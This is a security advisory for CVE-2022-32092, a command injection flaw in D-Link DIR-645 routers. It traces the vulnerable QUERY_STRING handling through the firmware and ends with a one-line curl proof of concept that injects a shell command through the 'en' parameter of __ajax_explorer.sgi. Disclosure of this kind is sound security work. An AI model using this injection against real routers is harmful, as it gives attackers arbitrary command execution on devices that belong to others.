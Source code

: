 Vendor of the products:D-Link

Reported by: 　　　WangJincheng(wjcwinmt@outlook.com) && FeiXincheng(FXC030618@outlook.com) && ShaLetian(ltsha@njupt.edu.cn) from X1cT34m

Affected products:D-Link DIR-645 <= v1.03

Vendor Homepage:  https://www.dlink.com/en/consumer

Vendor Advisory:  https://tsd.dlink.com.tw/ddgo

CVE_ID:[CVE-2022-32092](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-32092)


# summarize

`D-Link DIR-645` was discovered to contain a command injection vulnerability when operate the file `__ajax_explorer.sgi`. This vulnerability allows attackers to execute arbitrary commands via the `QUERY_STRING` parameter.

# Vulnerability description

We can see that the os will get `QUERY_STRING` in `scandir_main`, and pass it to `sub_410AD4`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/1.png)

In `sub_410AD4`, it calls `sub_410434`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/2.png)

In `sub_410434`, it contains a command injection.

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/3.png)

before the attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/4.png)

after the attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/5.png)

# poc

	curl "http://192.168.0.1/portal/__ajax_explorer.sgi?action=umnt&path=path&where=here&en=;echo%20X1cT34mpwner%20>FXC;"
